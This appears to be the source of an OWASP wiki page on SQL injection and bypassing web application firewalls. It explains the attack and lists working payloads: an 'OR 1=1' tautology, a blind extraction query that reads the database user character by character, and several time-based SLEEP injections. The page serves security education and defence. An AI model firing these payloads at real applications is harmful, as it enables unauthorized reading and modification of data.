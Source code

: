 ```yaml
---

title: SQL Injection Bypassing WAF
layout: col-sidebar
author:
contributors:
auto-migrated: 1
permalink: /attacks/SQL_Injection_Bypassing_WAF

---
```


## SQLi

A [SQL injection](SQL_injection "wikilink") attack consists of insertion
or "injection" of a SQL query via the input data from the client to the
application. A successful SQL injection exploit can read sensitive data
from the database, modify database data (Insert/Update/Delete), execute
administration operations on the database (such as shutdown the DBMS),
recover the content of a given file present on the DBMS file system and
in some cases issue commands to the operating system. SQL injection
attacks are a type of [injection
attack](Top_10_2007-Injection_Flaws "wikilink"), in which SQL commands
are injected into data-plane input in order to effect the execution of
predefined SQL commands.

## SQL Injection – Basic Concepts

There are two types of SQL Injection

    • SQL Injection into a String/Char parameter
      Example: SELECT * from table where example = 'Example'

    • SQL Injection into a Numeric parameter
      Example: SELECT * from table where id = 123

1.  Exploitation of SQL Injection vulnerabilities is divided into
    classes according to the DBMS type and injection conditions.



    • A vulnerable request can get into Insert, Update, Delete, etc.
      Example: UPDATE users SET pass = '1' where user = 't1' OR 1=1--'

1.  Blind SQL Injection



```
 Example: select * from table where id = 1 AND if((ascii(lower(substring((select user()),$i,1))))!=$s,1,benchmark(200000,md5(now())))
```

    SLEEP(5)--
    SELECT BENCHMARK(1000000,MD5('A'));
    id=1 OR SLEEP(25)=0 LIMIT 1--
    id=1) OR SLEEP(25)=0 LIMIT 1--
    id=1' OR SLEEP(25)=0 LIMIT 1--
    id=1') OR SLEEP(25)=0 LIMIT 1--
    id=1)) OR SLEEP(25)=0 LIMIT 1--
    id=SELECT SLEEP(25)--
